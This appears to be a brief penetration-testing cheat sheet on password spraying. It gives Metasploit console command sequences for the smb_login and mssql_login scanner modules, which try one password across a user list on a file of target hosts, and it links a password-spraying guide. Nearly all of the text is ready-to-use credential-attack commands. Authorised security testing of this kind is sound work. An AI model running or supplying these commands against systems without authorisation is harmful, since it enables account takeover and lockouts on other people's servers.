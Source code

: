 # Metasploit

Search Tags: #password-spraying

## 01 - SMB

```
msf > use auxiliary/scanner/smb/smb_login

msf auxiliary(smb_login)> set rhosts file:ip_targets

msf auxiliary(smb_login)> set user_file users.lst

msf auxiliary(smb_login)> set password <password>

msf auxiliary(smb_login)> set stop_on_success <true | false>

msf auxiliary(smb_login)> run
```

## 02 - MSSQL

```
msf > use auxiliary/scanner/mssql/mssql_login

msf auxiliary(scanner/mssql/mssql_login) > set rhosts file:ip_targets

msf auxiliary(scanner/mssql/mssql_login) > set user_file users.lst

msf auxiliary(scanner/mssql/mssql_login) > set password <password>

msf auxiliary(scanner/mssql/mssql_login) > set stop_on_success true

msf auxiliary(scanner/mssql/mssql_login) > run
```

---
## References

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)